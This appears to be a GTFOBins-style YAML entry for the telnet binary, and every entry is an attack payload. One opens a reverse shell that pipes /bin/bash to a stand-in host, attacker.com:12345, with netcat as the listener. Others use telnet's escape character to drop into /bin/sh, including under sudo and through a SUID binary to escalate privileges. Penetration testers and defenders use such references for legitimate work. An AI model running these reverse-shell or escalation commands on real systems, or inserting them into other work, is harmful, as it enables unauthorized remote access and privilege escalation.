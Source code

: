 ```yaml
---
functions:
  exec-interactive:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      
---
```

